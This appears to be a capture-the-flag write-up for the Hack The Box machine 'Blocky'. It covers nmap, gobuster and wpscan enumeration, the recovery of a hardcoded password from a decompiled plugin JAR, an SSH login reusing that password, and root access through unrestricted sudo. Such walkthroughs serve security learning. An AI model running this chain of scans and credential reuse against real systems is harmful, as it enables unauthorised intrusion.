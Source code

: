 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.37
```
> Identifies ports 21 [FTP](FTP), 22 [SSH](SSH), 80 [HTTP](HTTP), and 25565 (Minecraft, closed).

### 🔍 Targeted Service Enumeration
```bash
nmap -p 21,22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.37
```
> Finds FTP (ProFTPD 1.3.5a), SSH (OpenSSH 7.2p2), HTTP (Apache with WordPress 4.8).

---

## 🌐 Web & WordPress Enumeration

### 🧪 Directory Brute Force
```bash
gobuster dir -u http://10.10.10.37 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php -t 40 -o scans/gobuster-root-medium
```
> Discovers important directories: `/wp-login.php`, `/plugins/`, `/phpmyadmin`, `/wiki`.

### 🔍 WordPress Scan
```bash
wpscan --url http://10.10.10.37 -e ap,t,tt,u | tee scans/wpscan
```
> Finds:
- WP version: 4.8
- User: `notch`
- `/wp-content/uploads/` listing enabled
- `/xmlrpc.php` accessible

---

## 📦 Plugin Enumeration & JAR Analysis

### 🔽 Download Java JAR Files from `/plugins/`
> Found by visiting `/plugins` in browser.

### 🧪 Decompile with jd-gui (GUI tool)
```bash
# No command—GUI-based tool
```
> `BlockyCore.jar` contains hardcoded MySQL password:  
`8YsqfCTnvxAUeduzjNSXe22`

---

## 🔓 Shell as notch

### 🧪 Attempt SSH Login with Found Credentials
```bash
sshpass -p 8YsqfCTnvxAUeduzjNSXe22 ssh notch@10.10.10.37
```

### 📄 Capture User Flag
```bash
cat ~/user.txt
```

---

## 🪜 Privilege Escalation to root

### 🔍 Check sudo Rights
```bash
sudo -l
```
> notch can run **ALL commands as root**.

### 🔁 Elevate to Root
```bash
sudo su -
```

### 🏁 Capture Root Flag
```bash
cat /root/root.txt
```
